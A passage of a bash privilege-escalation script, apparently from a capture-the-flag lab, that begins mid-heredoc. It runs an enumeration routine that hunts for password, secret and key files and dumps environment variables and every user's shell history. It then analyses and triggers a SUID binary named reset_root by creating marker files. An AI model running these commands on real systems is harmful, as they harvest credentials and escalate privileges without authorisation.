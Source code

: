 ```bash
echo -e "\n=== INTERESTING FILES ==="
find / -name "*.txt" -o -name "*.conf" -o -name "*.log" 2>/dev/null | grep -E "(flag|secret|password|key)" | head -20
find /home -type f -name ".*" 2>/dev/null | head -20
find /var -name "*.log" 2>/dev/null | head -10

echo -e "\n=== CRON JOBS ==="
cat /etc/crontab 2>/dev/null
ls -la /etc/cron* 2>/dev/null
crontab -l 2>/dev/null

echo -e "\n=== SUDO PRIVILEGES ==="
sudo -l 2>/dev/null

echo -e "\n=== ENVIRONMENT VARIABLES ==="
env
printenv

echo -e "\n=== HISTORY FILES ==="
find /home -name ".*history" -exec echo "=== {} ===" \; -exec cat {} \; 2>/dev/null
ENUM_SCRIPT

chmod +x /tmp/linux_enum.sh
/tmp/linux_enum.sh > /tmp/enum_results.txt 2>&1

# ========================================
# PHASE 8: PRIVILEGE ESCALATION ANALYSIS
# ========================================

# SUID binary analysis
ls -la /usr/bin/reset_root
file /usr/bin/reset_root
strings /usr/bin/reset_root | grep -E "(tmp|dev|shm|passwd|shadow)"

# Dynamic analysis with strace/ltrace
strace -f -e trace=file /usr/bin/reset_root 2>&1 | grep -E "(open|access|stat)"
ltrace /usr/bin/reset_root 2>&1

# Check for required files/conditions
ls -la /dev/shm/
ls -la /tmp/

# Binary security analysis
checksec /usr/bin/reset_root 2>/dev/null || echo "checksec not available"

# Ghidra/radare2 analysis (if available)
r2 -A /usr/bin/reset_root << 'R2_COMMANDS'
aaa
afl
pdf @main
q
R2_COMMANDS

# ========================================
# PHASE 9: SUID EXPLOITATION
# ========================================

# Create required files based on analysis
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe

# Set appropriate permissions if needed
```
